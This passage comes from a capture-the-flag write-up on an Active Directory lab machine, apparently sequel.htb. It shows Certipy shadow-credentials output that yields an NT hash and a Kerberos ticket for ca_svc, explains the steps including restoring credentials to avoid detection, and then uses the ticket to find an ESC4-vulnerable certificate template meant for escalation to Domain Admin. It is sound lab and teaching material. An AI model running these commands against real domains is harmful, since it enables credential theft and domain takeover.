```shell
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```
- `certipy-ad shadow auto`: We perform a "shadow credentials" attack. It abuses ADCS to add a `Key Credential` to the target user (`ca_svc`), which allows the attacker to authenticate as that user.

#### What Happens During the Attack?
1. **Generating a Certificate**:
   - Certipy generates a certificate for the attacker. This certificate is used to authenticate as the target user (`ca_svc`).

2. **Adding a Key Credential**:
   - Certipy adds a **Key Credential** to the `ca_svc` user object in Active Directory. This is done by modifying the `msDS-KeyCredentialLink` attribute of the user.
   - The Key Credential is essentially a public key that allows the attacker to authenticate as `ca_svc` using the corresponding private key.

3. **Authenticating as `ca_svc`**:
   - Using the certificate, Certipy authenticates as `ca_svc` and requests a Kerberos TGT (Ticket Granting Ticket) for the user.
   - The TGT is saved to a file (`ca_svc.ccache`), which can be used later to impersonate `ca_svc`.

4. **Retrieving the NT Hash**:
   - Certipy uses the TGT to request the NT hash for `ca_svc`.

5. **Restoring the Original Key Credentials**:
   - To avoid detection, Certipy restores the original `msDS-KeyCredentialLink` attribute for `ca_svc`, removing the attacker's Key Credential.


**Using this nt hash and ticket we can now take control of the ADCS and try to search for a vulnerable certificate.**

**Let's do it:**

```shell
❯ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip $ip -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Domain retrieved from CCache: SEQUEL.HTB
[+] Username retrieved from CCache: ca_svc
[+] Trying to resolve 'dc01.sequel.htb' at '10.129.166.148'
Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    CA Name                             : sequel-DC01-CA
    [...]
    [!] Vulnerabilities
      ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```
- ESC4 refers to a misconfiguration where the `Cert Publishers` group (or other low-privileged groups) has excessive permissions (e.g., `Write`, `FullControl`) on a certificate template. This allows members of the group to modify the template and potentially escalate privileges.
- For exmaple, enable the CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT flag, which allows the requester to specify the Subject Alternative Name (SAN) in the certificate. This can be abused to request a certificate for a high-privileged account (e.g., Domain Admin / Administrator).

